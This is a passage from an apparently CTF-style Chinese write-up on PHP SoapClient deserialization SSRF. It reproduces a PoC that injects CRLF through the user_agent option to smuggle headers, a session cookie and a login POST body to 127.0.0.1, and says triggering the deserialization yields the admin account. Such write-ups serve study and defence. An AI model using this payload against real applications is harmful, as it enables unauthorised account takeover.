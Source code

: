 有关 SoapClient 为何引起 SSRF 的原理不再赘述，详情建议阅读 wupco 师傅的[文章](https://xz.aliyun.com/t/2148)，通过剖析源码介绍的很细致了。

#### 利用 user_agent 的 CRLF
因为 `user_agent` 在 HTTP 包中的顺序位于 `Content-Type` 之前，因此可以进行修改

来自 wupco 师傅的 PoC：
```php
<?php
$target = 'http://127.0.0.1/index.php?action=login';
$post_string = 'username=admin&password=nu1ladmin&code=cf44f3147ab331af7d66943d888c86f9';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo bin2hex($aaa);
?>
```
其中，PHPSESSID 使用一个未登录时保存的 PHPSESSID，code 使用该 ID 对应的验证码解出来的值。

然后通过 publish 如下数据，并利用该账户访问 index 页面触发反序列化，即可获得 admin 账户